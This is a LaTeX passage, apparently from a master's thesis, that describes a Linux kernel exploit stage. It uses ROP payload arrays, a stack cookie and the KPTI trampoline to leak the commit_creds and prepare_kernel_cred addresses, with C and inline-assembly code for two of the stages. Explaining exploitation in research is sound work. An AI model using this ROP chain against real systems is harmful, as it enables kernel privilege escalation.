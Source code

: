 \documentclass{masterthesis}
\newcommand{\refToSection}[1]{Section~\ref{sect:#1}\xspace}
\begin{document}
\subsection{Leaking \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred()}}
The goal is to leak \texttt{commit\_creds} and read the value\_offset of \texttt{ksymtab_commit_creds}, then add them together. We want to use our two memory reading gadgets to read it, using the ROP technique introduced in \refToSection{trampoline}, and safely return to the user-land via the KPTI trampoline to prepare for the next step.
\begin{lstlisting}
void stage_1(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // RBX
    payload[off++] = 0x0; // R12
    payload[off++] = 0x0; // RBP
    payload[off++] = pop_RAX_ret; // return address
    payload[off++] = ksymtab_commit_creds - 0x10; // RAX <- __ksymtabs_commit_creds - 0x10
    payload[off++] = read_mem_pop1_ret; // RAX <- [__ksymtabs_commit_creds]
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)get_commit_creds;
    ....
}
void get_commit_creds(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, RAX;"
        ".att_syntax;"
    );
    commit_creds = ksymtab_commit_creds + (int)tmp_store;
    printf("    --> commit_creds: %lx\n", commit_creds);
    stage_2();
}
\end{lstlisting}
Second stage is exactly the same as \texttt{stage_1} above:
\begin{lstlisting}
void stage_2(void){
    ...
    //the same as 1 stage
    ...
    payload[off++] = ksymtab_prepare_kernel_cred - 0x10; // RAX <- __ksymtabs_prepare_kernel_cred - 0x10
    payload[off++] = read_mem_pop1_ret; // RAX <- [__ksymtabs_prepare_kernel_cred]
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)get_prepare_kernel_cred;
    ....
}

void get_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, RAX;"
        ".att_syntax;"
    );
    prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp_store;
    printf("    --> prepare_kernel_cred: %lx\n", prepare_kernel_cred);
    stage_3();
}

\end{lstlisting}
\end{document}
